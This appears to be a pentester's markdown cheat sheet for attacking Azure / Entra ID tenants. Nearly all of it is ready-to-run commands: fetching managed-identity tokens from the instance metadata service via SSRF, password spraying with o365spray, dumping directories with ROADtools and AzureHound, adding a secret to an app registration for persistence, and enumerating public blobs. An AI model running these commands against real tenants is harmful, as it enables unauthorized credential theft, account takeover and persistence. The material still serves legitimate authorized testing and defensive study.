

#cloud #azure #entra-id #aad

# Azure / Entra ID Enumeration & Exploitation

Related: [aws](aws.md) · [enumeration](../AD/enumeration.md) · [password-spraying](../AD/password-spraying.md)

## Contents
- [Instance Metadata Service (SSRF Target)](#instance-metadata-service-ssrf-target)
- [Azure CLI — Initial Enumeration](#azure-cli--initial-enumeration)
- [Unauthenticated Tenant Recon](#unauthenticated-tenant-recon)
- [Password Spraying Entra ID](#password-spraying-entra-id)
- [ROADtools (Entra ID Recon)](#roadtools-entra-id-recon)
- [AzureHound (BloodHound Collector)](#azurehound-bloodhound-collector)
- [App Registration / Service Principal Abuse](#app-registration--service-principal-abuse)
- [Microburst (Office 365 / Azure Recon, PowerShell)](#microburst-office-365--azure-recon-powershell)

| Tool | Target | Purpose |
|---|---|---|
| [o365spray](#password-spraying-entra-id) | O365 / Entra ID | Validate tenant + password spray |
| [ROADtools](#roadtools-entra-id-recon) | Entra ID | Full directory dump via Azure AD Graph API into a local DB/GUI |
| [AzureHound](#azurehound-bloodhound-collector) | Entra ID + Azure RM | BloodHound-compatible collector |
| [MicroBurst](#microburst-office-365--azure-recon-powershell) | Azure / O365 | Subdomain + public blob storage enumeration (PowerShell) |

## Instance Metadata Service (SSRF Target)
```bash
curl -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
curl -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
> [!NOTE]
> Azure IMDS requires the `Metadata: true` header (no token handshake like AWS IMDSv2); the second call returns a Managed Identity access token if one is attached to the VM.

## Azure CLI — Initial Enumeration
```bash
az login
az account show
az account list
```
Authenticate and confirm the current subscription/tenant context.

```bash
az ad user list --query "[].userPrincipalName"
az ad app list
az role assignment list --all
```
Enumerate users, app registrations, and RBAC role assignments.

## Unauthenticated Tenant Recon
```bash
curl "https://login.microsoftonline.com/getuserrealm.srf?login=user@target.com&json=1"
```
> [!TIP]
> Confirms the tenant exists and whether the domain is Managed or Federated (ADFS) — no credentials needed.

## Password Spraying Entra ID
```bash
pip3 install o365spray
python3 o365spray.py --validate -d target.com
python3 o365spray.py --spray -d target.com -U users.txt -p 'Spring2024!' --count 1 --lockout 10
```
Validate the domain is on O365/Entra ID, then spray a single password across a userlist respecting a lockout threshold. See [password-spraying](../AD/password-spraying.md).

## ROADtools (Entra ID Recon)
```bash
pip3 install roadrecon
roadrecon auth -u user@target.com -p 'Password123'
roadrecon gather
roadrecon gui
```
Authenticate, pull the full directory (users, groups, apps, service principals, devices) into a local SQLite DB via the Azure AD Graph API, then browse it in a local web GUI.

## AzureHound (BloodHound Collector)
```bash
azurehound -u user@target.com -p 'Password123' list -o output.json az-ad
azurehound -u user@target.com -p 'Password123' list -o output.json az-rm
```
Collect AzureAD-tenant-level objects (`az-ad`) and AzureRM-subscription-level objects (`az-rm`) for import into BloodHound.

## App Registration / Service Principal Abuse
```bash
az ad app credential reset --id <app-id> --append
```
Add a new client secret to an app registration you have `Owner`/`Application Administrator` rights over — gives you a usable service-principal credential.

```bash
az ad sp list --query "[?appOwnerOrganizationId!=null]" --all
```
Enumerate service principals with delegated/application permissions.

> [!WARNING]
> Check for `RoleManagement.ReadWrite.Directory` or `Directory.ReadWrite.All` on a service principal — this is Global Admin-equivalent via Graph API abuse.



## Microburst (Office 365 / Azure Recon, PowerShell)
```powershell
Import-Module .\MicroBurst.psm1
Invoke-EnumerateAzureSubDomains -Base target -Verbose
Invoke-EnumerateAzureBlobs -Base target
```
Enumerate Azure service subdomains (storage, vault, etc.) and public blob storage containers by permutation.
